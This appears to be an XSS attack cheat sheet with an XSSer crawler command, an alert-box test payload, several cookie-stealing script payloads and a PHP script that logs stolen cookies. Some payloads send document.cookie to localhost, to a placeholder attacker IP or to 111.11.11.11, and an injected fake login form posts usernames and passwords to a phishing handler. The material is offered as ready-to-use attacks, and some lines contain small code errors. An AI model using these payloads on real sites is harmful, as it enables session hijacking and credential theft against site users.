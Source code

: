 XSSer

xsser -c100 --Cw=4 -U <target-host>
c : number of pages to crawl
--Cw : depth of crawler 
-u : URL




### Simple injection from URL:

-u "http://host.com"



### XSS Examples

Simple Alert Box

<script>alert('attacked')</script>

### Cookie Stealing

Example one

<script>document.location="http://localhost/cookie.php?q="+document.cookie;</script>

Example two

<a href="javascript:document.location='http://localhost/cookie.php?q='+document.cookie;">CLICK ME!</a>

cookie.php could look like this:

<?php
$file = "cookie.txt"
$act = fopen($file, 'a');
$cookie = $_GET['q'];
fwrite($act,$cookie);
fclose($act);
?>

Other examples

<script>new image().src="http://<attacker's IP Address>/b.php?"+document.cookie;</script>
<script>new Image().src="http://111.11.11.11/"+encodeURI(document.cookie)</script>
<script>$.post("http://111.11.11.11", {cookie:document.cookie})</script>

Phishing

Example one

<form name ="phish" action="http://localhost/phish.php" method="post">
<br><br><hr>
<h3>Login now:</h3><br><br>
Enter Username: <br><input type="text" name="email"><br><Enter Password:<br><input type="password" name="pass"><br> 
<input type="submit" name="Login" value="Login">
</form>
<br><br><hr>
